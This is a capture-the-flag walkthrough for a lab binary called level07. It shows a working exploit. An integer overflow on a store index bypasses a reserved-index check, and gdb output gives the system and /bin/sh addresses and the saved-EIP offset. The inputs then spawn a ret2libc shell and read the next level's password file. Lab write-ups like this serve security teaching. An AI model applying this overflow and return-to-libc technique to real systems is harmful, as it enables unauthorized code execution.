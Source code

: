 # Walkthrough level07

In this binary we don't have function to get the flag.  
We need to get a shell by our own.

With the function `store_number` we can write a number in an index.  
The only restriction on the index is `index % 3 != 0`.  
We can avoid this restriction with an int overflow performed when the index is times by 4 because `sizeof(int) == 4`:

```bash
Input command: store
 Number: 42
 Index: 0
 *** ERROR! ***
   This index is reserved for wil!
 *** ERROR! ***
 Failed to do store command
```

To overflow we can use this formula `(2^32 + index) / 4`:

```bash
Input command: store
 Number: 42
 Index: 1073741824
 Completed store command successfully
Input command: read
 Index: 0
 Number at data[0] is 42
 Completed read command successfully
```

Because it's boring to write a lots, we don't use shellcode but [ret2libc](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc).

We need address of system, `/bin/sh` and offset of eip:

```bash
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p 0xf7e6aed0
$2 = 4159090384

(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xf7f897ec
(gdb) x/s 0xf7f897ec
0xf7f897ec:      "/bin/sh"
(gdb) p 0xf7f897ec
$3 = 4160264172

(gdb) i f
Stack level 0, frame at 0xffffd710:
 eip = 0x8048857 in main; saved eip 0xf7e45513
 Arglist at 0xffffd708, args: 
 Locals at 0xffffd708, Previous frame's sp is 0xffffd710
 Saved registers:
  ebx at 0xffffd6fc, ebp at 0xffffd708, esi at 0xffffd700, edi at 0xffffd704,
  eip at 0xffffd70c

(gdb) x/xw $esp + 0x24
0xffffd544:     0x00000000

(gdb) p (0xffffd70c - 0xffffd544) / 4
$6 = 114
```

- address of `system` = 4159090384
- address of `/bin/sh` = 4160264172
- offset of `eip` = 114

`114 % 3 == 0` so we need to overflow: `1073741824 + 114 = 1073741938`

```bash
Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
